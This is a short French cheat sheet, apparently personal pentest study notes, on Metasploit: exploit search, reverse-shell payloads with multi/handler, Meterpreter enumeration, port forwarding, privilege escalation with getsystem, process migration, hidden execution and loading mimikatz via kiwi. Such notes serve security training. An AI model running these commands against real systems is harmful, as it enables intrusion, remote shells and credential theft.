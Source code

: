# Exploit module
Modules avec des exploits

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#rechercher un exploit
search apache nifi
use 0
info
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Charges
Staged: télécharges le reste de la charge, permet de réduire la taille contient "/" dans le nom
Non-Staged: tout en un
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
show payloads
search type:payload windows meterpreter reverse tcp
# changer l'OS de la cible pour voir d'autres charges
set target <id>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
## Charge externe
Créer un exploit staged ou non
utiliser multi/handler 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
use multi/handler
#la charge de notre exécutable
set payload windows/x64/shell/reverse_tcp
run
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 excuter l'exploit

# Meterpreter
Offre différentes fonctionnalités standardisés pour plusieurs OS
## Enumeration
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sysinfo
getuid
ps
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
## Téléverser
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
upload <from> <to>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
## Port forward
dans une sessions 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
portfwd add -l 3389 -p 3389 -r 172.16.5.200
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
## Post-exploitation
* ```getsystem``` pour élever privilèges
* ```migrate``` pour changer vers un autre processus
* ```execute -H -f notepad``` lance un notepad caché
* ```load kiwi``` pour utiliser mimikatz
